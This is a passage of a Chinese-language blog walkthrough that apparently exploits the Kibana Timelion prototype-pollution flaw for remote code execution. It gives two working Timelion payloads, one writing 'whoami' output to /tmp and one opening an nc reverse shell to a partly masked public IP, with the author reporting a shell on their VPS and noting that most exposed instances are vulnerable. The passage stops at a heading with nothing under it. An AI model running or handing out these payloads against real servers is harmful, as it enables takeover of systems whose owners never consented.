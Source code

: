 运行之后点击左侧导航栏 Canvas 按钮：

 ![title](https://leanote.com/api/file/getImage?fileId=5da964a7ab64416c4c003191)

然后查看tmp文件夹，发现 test.txt 文件已被写入：
 
 ![title](https://leanote.com/api/file/getImage?fileId=5da964b3ab64416c4c003192)
 

尝试把 `whoami` 的内容写入文件（注意，第一次执行命令的时候，在运行timelion 框内的poc之后需要点击 Canvas，但是后面再执行命令的时候，都无需再点击 Canvas，直接运行 timelion 框内的poc即可被执行）：

## 输出 whoami 结果 POC：

``` shell
.es().props(label.__proto__.env.AAAA='require("child_process").exec("whoami > /tmp/mmm.txt");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

检查写入位置发现写入成功：
 
![title](https://leanote.com/api/file/getImage?fileId=5da964ddab64416e4700309a)

尝试通过 nc 反弹shell:

## nc 反弹 shell POC：

``` shell
.es().props(label.__proto__.env.AAAA='require("child_process").exec("nc -e /bin/bash 144.*.*.70 7770");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

被我控制的公网 vps 成功接收到反弹shell：
 
![title](https://leanote.com/api/file/getImage?fileId=5da96551ab64416e4700309f)


尝试执行命令，发现可正常使用：
 
 
 ![title](https://leanote.com/api/file/getImage?fileId=5da9655eab64416e470030a0)
 
 
 
# 总结：
 
 
 1、  触发的方法很简单 就把 POC 粘贴在 `timelion` 里 然后运行下，然后你再点击左边的 `Canvas` 就成功了。
 2、 公网上机器十台有九台版本高于 6.6.0，查看方法：

  ![title](https://leanote.com/api/file/getImage?fileId=5da9676aab64416e470030ab)

![title](https://leanote.com/api/file/getImage?fileId=5da967a5ab64416c4c0031a8)

# 一个问题的探究：
